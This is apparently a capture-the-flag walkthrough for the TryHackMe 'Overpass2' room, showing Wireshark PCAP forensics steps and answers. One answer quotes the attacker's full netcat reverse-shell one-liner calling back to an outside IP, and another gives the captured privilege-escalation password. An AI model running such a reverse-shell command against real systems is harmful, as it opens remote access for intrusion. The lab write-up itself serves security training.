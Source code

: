 # Overpass2 Walkthrough
### Link
- https://tryhackme.com/room/overpass2hacked
---
### Task 1  Forensics - Analyse the PCAP
**Question**
###### What was the URL of the page they used to upload a reverse shell?
Download and Open pcap

Right click on the first packet --> Select Follow --> TCP Stream
[Overpass2_1](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_1.png) , [Overpass2_2](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_2.png)
**Answer**
###### /development/

**Question**
###### What payload did the attacker use to gain access?

Right click on the second packet --> Select Follow --> TCP Stream 

**Answer**
###### exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")

**Question**
###### What password did the attacker use to privesc?

Now let's use another method. We search in the entire capture the keyword : *password*

For that: 

- click on the search icon --> select Packet bytes
- *Don't check Case sensitive*
- Select String
- indicate the string you want to find: password

When you found the packet, Right click --> Select Follow --> TCP Stream

**Answer**
######  whenevernoteartinstant
